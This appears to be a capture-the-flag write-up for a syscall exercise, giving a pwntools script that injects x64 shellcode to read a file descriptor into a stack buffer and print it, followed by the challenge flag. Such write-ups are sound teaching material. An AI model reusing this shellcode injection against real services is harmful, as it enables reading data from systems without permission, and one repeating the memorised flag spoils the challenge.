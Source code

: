 ## `CPSC233 Assignment 2`
### Problem Description
- Author: aynakeya
    - CPSC233 Assignment 2 Instruction
    - In this assignment, you are going to apply your knowledge of syscalls.
    - Online Learning Resource:
        1. x64 assembly reference: http://6.s081.scripts.mit.edu/sp18/x86-64-architecture-guide.html
        2. Exploring assembly language: https://godbolt.org/
        3. x64 cheat sheet: https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf
        4. syscall table: https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md

### Solution
Slightly more difficult, now we need to `read` the `fd` into a buffer, `write` it to `stdout`, then `close` the `fd`. 213/313 and the man pages pls help me

### Script:

```python
io = start()
your_asm_code_here = """
mov rax, 0      # read
sub rsp, 0x400  # allocate buffer on stack
mov rsi, rsp    # read arg
mov rdx, 1024   # read arg
syscall
mov rdx, rax    # read returns how many bytes is read, move this into arg for write
mov rax, 1      # write
mov r8, rdi     # save the fd so we can close it later
mov rdi, 1      # stdout
syscall
mov rdi, r8     # restore fd into rdi
mov rax, 3      # close
syscall
add rsp, 0x400  # restore stack
ret
"""
shellcode = asm(your_asm_code_here)
io.sendlineafter(b"here: ", shellcode.hex().encode())
io.recvline()
print(io.recvline().decode(), end="")
io.close()
```

### Flag: `maple{p21n71n9_1n_4445555mmmm}`